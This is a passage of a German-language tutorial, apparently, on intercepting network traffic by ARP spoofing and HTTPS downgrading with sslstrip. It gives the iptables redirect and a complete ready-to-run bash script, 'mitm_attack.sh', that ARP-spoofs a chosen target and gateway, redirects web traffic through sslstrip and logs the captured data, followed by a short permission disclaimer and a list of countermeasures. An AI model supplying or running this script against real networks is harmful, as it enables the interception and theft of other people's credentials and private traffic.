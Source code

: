 `sslstrip -l 8080`

1. Konfigurieren Sie iptables:
    

bash

`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`

1. Überwachen Sie den Datenverkehr:
    

bash

`tail -f sslstrip.log`

## Beispielskript

Hier ist ein Bash-Skript, das den gesamten Prozess automatisiert:

bash

`#!/bin/bash # Funktion zum Überprüfen der Root-Rechte check_root() {     if [ "$EUID" -ne 0 ]; then        echo "Dieses Skript muss als Root ausgeführt werden."        exit 1    fi } # Funktion zum Aktivieren des IP-Forwarding enable_ip_forwarding() {     echo 1 > /proc/sys/net/ipv4/ip_forward    echo "IP-Forwarding aktiviert." } # Funktion zum Starten des ARP-Spoofing start_arp_spoofing() {     local interface=$1    local target=$2    local gateway=$3     arpspoof -i "$interface" -t "$target" "$gateway" &    arpspoof -i "$interface" -t "$gateway" "$target" &    echo "ARP-Spoofing gestartet." } # Funktion zum Starten von SSLstrip start_sslstrip() {     sslstrip -l 8080 &    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080    echo "SSLstrip gestartet." } # Hauptfunktion main() {     check_root     read -p "Geben Sie die Netzwerkschnittstelle ein (z.B. eth0): " interface    read -p "Geben Sie die IP-Adresse des Zielgeräts ein: " target    read -p "Geben Sie die IP-Adresse des Gateways ein: " gateway     enable_ip_forwarding    start_arp_spoofing "$interface" "$target" "$gateway"    start_sslstrip     echo "MitM-Angriff läuft. Drücken Sie CTRL+C zum Beenden."    tail -f sslstrip.log } # Skript ausführen main`

Speichern Sie dieses Skript als `mitm_attack.sh` und führen Sie es mit Root-Rechten aus:

bash

`sudo bash mitm_attack.sh`

## Wichtige Hinweise

- Verwenden Sie dieses Skript nur in kontrollierten Umgebungen und mit ausdrücklicher Erlaubnis.
    
- MitM-Angriffe können illegal sein und die Privatsphäre verletzen.
    
- Moderne Sicherheitsmaßnahmen wie HSTS können solche Angriffe erschweren[7](https://anovin.mk/tutorial/how-to-use-the-sslstrip-tool-for-https-downgrading-attacks-in-kali-linux/).
    

## Gegenmaßnahmen

1. Verwenden Sie VPNs zur Verschlüsselung des Datenverkehrs.
    
2. Überprüfen Sie SSL/TLS-Zertifikate sorgfältig.
    
3. Aktivieren Sie HSTS auf Webservern.
    
4. Nutzen Sie Netzwerksicherheitstools zur Erkennung von ARP-Spoofing.
    
5. Bevorzugen Sie kabelgebundene Verbindungen in sensiblen Umgebungen